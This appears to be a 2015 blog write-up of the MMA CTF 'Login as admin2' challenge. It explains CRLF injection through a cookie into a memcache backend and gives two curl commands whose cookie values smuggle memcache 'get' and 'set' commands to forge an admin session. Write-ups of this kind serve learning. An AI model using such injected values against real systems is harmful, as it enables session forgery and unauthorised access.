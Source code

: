 ```yaml
---
layout:     post
title:      "MMA ctf writeup2"
subtitle:   "Login as admin2!"
date:       2015-09-13 5:14:00
author:     "Heeraj"
header-img: "img/post-bg-02.jpg"
---
```

<script type='text/javascript' src='//eclkmpbn.com/adServe/banners?tid=98477_161886_3&type=footer&size=468x60'></script>
<p> If you like to read our old blogs you are welcome, <a href="http://heeraj123.wordpress.com">I4INFO</a> Want to be a member of our team, contact us! </p>

<p>This was something unusual , when I saw it I thought by seeing it would be an injection , tried all the stuff. Didn't work , and was waiting for the writeup in ctftime.</p>

<p>When the writeup came it was intresting , it was some crlf , which means " Carriage Return and Line Feed ". That is something new for me , and something to learn. When I googled I found that is something which is simple and but has affectd in many pages in google adsense .</p>

<p>\n means line feed and \r means carrige return. %0d is carriage return and %0a is line feed. And here the problem is about memcache it is distributed memory caching system. The main aim is to obtain the flag , for that we look for memcache commands.</p>

<blockquote>curl "http://login2.chal.mmactf.link/" --cookie "ss=%0d%0aget 770e33cbe1d236a5233adacd95995e2f8ca71a21b65eb756d7f894647b6168c2"</blockquote>

<blockquote> curl "http://login2.chal.mmactf.link/" --cookie "ss=%0d%0aset adminkey 0 3600 20%0d%0a{\"username\":\"admin\"}"</blockquote>
